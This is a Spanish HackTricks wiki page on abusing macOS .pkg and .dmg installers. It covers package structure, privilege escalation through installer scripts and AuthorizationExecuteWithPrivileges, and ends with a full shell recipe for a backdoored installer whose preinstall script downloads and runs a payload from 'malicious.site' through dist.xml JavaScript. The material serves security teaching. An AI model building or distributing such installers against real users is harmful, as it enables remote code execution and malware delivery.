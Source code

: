 # Abuso de Instaladores de macOS

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}

## Información Básica del Paquete

Un **paquete de instalador** de macOS (también conocido como archivo `.pkg`) es un formato de archivo utilizado por macOS para **distribuir software**. Estos archivos son como una **caja que contiene todo lo que una pieza de software** necesita para instalarse y funcionar correctamente.

El archivo del paquete en sí es un archivo comprimido que contiene una **jerarquía de archivos y directorios que se instalarán en la computadora** objetivo. También puede incluir **scripts** para realizar tareas antes y después de la instalación, como configurar archivos de configuración o limpiar versiones antiguas del software.

### Jerarquía

<figure><img src="../../../.gitbook/assets/Pasted Graphic.png" alt="https://www.youtube.com/watch?v=iASSG0_zobQ"><figcaption></figcaption></figure>

* **Distribución (xml)**: Personalizaciones (título, texto de bienvenida…) y verificaciones de script/instalación
* **PackageInfo (xml)**: Información, requisitos de instalación, ubicación de instalación, rutas a scripts a ejecutar
* **Lista de materiales (bom)**: Lista de archivos para instalar, actualizar o eliminar con permisos de archivo
* **Carga útil (archivo CPIO comprimido con gzip)**: Archivos para instalar en la `install-location` desde PackageInfo
* **Scripts (archivo CPIO comprimido con gzip)**: Scripts de pre y post instalación y más recursos extraídos a un directorio temporal para su ejecución.

### Descomprimir
```bash
# Tool to directly get the files inside a package
pkgutil —expand "/path/to/package.pkg" "/path/to/out/dir"

# Get the files ina. more manual way
mkdir -p "/path/to/out/dir"
cd "/path/to/out/dir"
xar -xf "/path/to/package.pkg"

# Decompress also the CPIO gzip compressed ones
cat Scripts | gzip -dc | cpio -i
cpio -i < Scripts
```
Para visualizar el contenido del instalador sin descomprimirlo manualmente, también puedes usar la herramienta gratuita [**Suspicious Package**](https://mothersruin.com/software/SuspiciousPackage/).

## Información Básica de DMG

Los archivos DMG, o Imágenes de Disco de Apple, son un formato de archivo utilizado por macOS de Apple para imágenes de disco. Un archivo DMG es esencialmente una **imagen de disco montable** (contiene su propio sistema de archivos) que contiene datos de bloques en bruto, típicamente comprimidos y a veces cifrados. Cuando abres un archivo DMG, macOS **lo monta como si fuera un disco físico**, permitiéndote acceder a su contenido.

{% hint style="danger" %}
Ten en cuenta que los instaladores **`.dmg`** soportan **tantos formatos** que en el pasado algunos de ellos que contenían vulnerabilidades fueron abusados para obtener **ejecución de código en el kernel**.
{% endhint %}

### Jerarquía

<figure><img src="../../../.gitbook/assets/image (225).png" alt=""><figcaption></figcaption></figure>

La jerarquía de un archivo DMG puede ser diferente según el contenido. Sin embargo, para los DMGs de aplicaciones, generalmente sigue esta estructura:

* Nivel Superior: Esta es la raíz de la imagen de disco. A menudo contiene la aplicación y posiblemente un enlace a la carpeta de Aplicaciones.
* Aplicación (.app): Esta es la aplicación real. En macOS, una aplicación es típicamente un paquete que contiene muchos archivos y carpetas individuales que componen la aplicación.
* Enlace de Aplicaciones: Este es un acceso directo a la carpeta de Aplicaciones en macOS. El propósito de esto es facilitarte la instalación de la aplicación. Puedes arrastrar el archivo .app a este acceso directo para instalar la aplicación.

## Privesc a través del abuso de pkg

### Ejecución desde directorios públicos

Si un script de pre o post instalación está, por ejemplo, ejecutándose desde **`/var/tmp/Installerutil`**, un atacante podría controlar ese script para escalar privilegios cada vez que se ejecute. O otro ejemplo similar:

<figure><img src="../../../.gitbook/assets/Pasted Graphic 5.png" alt="https://www.youtube.com/watch?v=iASSG0_zobQ"><figcaption><p><a href="https://www.youtube.com/watch?v=kCXhIYtODBg">https://www.youtube.com/watch?v=kCXhIYtODBg</a></p></figcaption></figure>

### AuthorizationExecuteWithPrivileges

Esta es una [función pública](https://developer.apple.com/documentation/security/1540038-authorizationexecutewithprivileg) que varios instaladores y actualizadores llamarán para **ejecutar algo como root**. Esta función acepta la **ruta** del **archivo** a **ejecutar** como parámetro; sin embargo, si un atacante pudiera **modificar** este archivo, podrá **abusar** de su ejecución con root para **escalar privilegios**.
```bash
# Breakpoint in the function to check wich file is loaded
(lldb) b AuthorizationExecuteWithPrivileges
# You could also check FS events to find this missconfig
```
Para más información, consulta esta charla: [https://www.youtube.com/watch?v=lTOItyjTTkw](https://www.youtube.com/watch?v=lTOItyjTTkw)

### Ejecución mediante montaje

Si un instalador escribe en `/tmp/fixedname/bla/bla`, es posible **crear un montaje** sobre `/tmp/fixedname` sin propietarios para que puedas **modificar cualquier archivo durante la instalación** y abusar del proceso de instalación.

Un ejemplo de esto es **CVE-2021-26089** que logró **sobrescribir un script periódico** para obtener ejecución como root. Para más información, echa un vistazo a la charla: [**OBTS v4.0: "Mount(ain) of Bugs" - Csaba Fitzl**](https://www.youtube.com/watch?v=jSYPazD4VcE)

## pkg como malware

### Carga útil vacía

Es posible generar un **`.pkg`** archivo con **scripts de pre y post-instalación** sin ninguna carga útil real aparte del malware dentro de los scripts.

### JS en xml de distribución

Es posible agregar **`<script>`** etiquetas en el **archivo xml de distribución** del paquete y ese código se ejecutará y puede **ejecutar comandos** usando **`system.run`**:

<figure><img src="../../../.gitbook/assets/image (1043).png" alt=""><figcaption></figcaption></figure>

### Instalador con puerta trasera

Instalador malicioso usando un script y código JS dentro de dist.xml
```bash
# Package structure
mkdir -p pkgroot/root/Applications/MyApp
mkdir -p pkgroot/scripts

# Create preinstall scripts
cat > pkgroot/scripts/preinstall <<EOF
#!/bin/bash
echo "Running preinstall script"
curl -o /tmp/payload.sh http://malicious.site/payload.sh
chmod +x /tmp/payload.sh
/tmp/payload.sh
exit 0
EOF

# Build package
pkgbuild --root pkgroot/root --scripts pkgroot/scripts --identifier com.malicious.myapp --version 1.0 myapp.pkg

# Generate the malicious dist.xml
cat > ./dist.xml <<EOF
<?xml version="1.0" encoding="utf-8"?>
<installer-gui-script minSpecVersion="1">
<title>Malicious Installer</title>
<options customize="allow" require-scripts="false"/>
<script>
<![CDATA[
function installationCheck() {
if (system.isSandboxed()) {
my.result.title = "Cannot install in a sandbox.";
my.result.message = "Please run this installer outside of a sandbox.";
return false;
}
return true;
}
function volumeCheck() {
return true;
}
function preflight() {
system.run("/path/to/preinstall");
}
function postflight() {
system.run("/path/to/postinstall");
}
]]>
</script>
<choices-outline>
<line choice="default">
<line choice="myapp"/>
</line>
</choices-outline>
<choice id="myapp" title="MyApp">
<pkg-ref id="com.malicious.myapp"/>
</choice>
<pkg-ref id="com.malicious.myapp" installKBytes="0" auth="root">#myapp.pkg</pkg-ref>
</installer-gui-script>
EOF

# Buil final
productbuild --distribution dist.xml --package-path myapp.pkg final-installer.pkg
```
## Referencias

* [**DEF CON 27 - Desempaquetando Pkgs Una Mirada Dentro de los Paquetes de Instalación de Macos y Fallas de Seguridad Comunes**](https://www.youtube.com/watch?v=iASSG0\_zobQ)
* [**OBTS v4.0: "El Mundo Salvaje de los Instaladores de macOS" - Tony Lambert**](https://www.youtube.com/watch?v=Eow5uNHtmIg)
* [**DEF CON 27 - Desempaquetando Pkgs Una Mirada Dentro de los Paquetes de Instalación de MacOS**](https://www.youtube.com/watch?v=kCXhIYtODBg)
* [https://redteamrecipe.com/macos-red-teaming?utm\_source=pocket\_shared#heading-exploiting-installer-packages](https://redteamrecipe.com/macos-red-teaming?utm\_source=pocket\_shared#heading-exploiting-installer-packages)

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
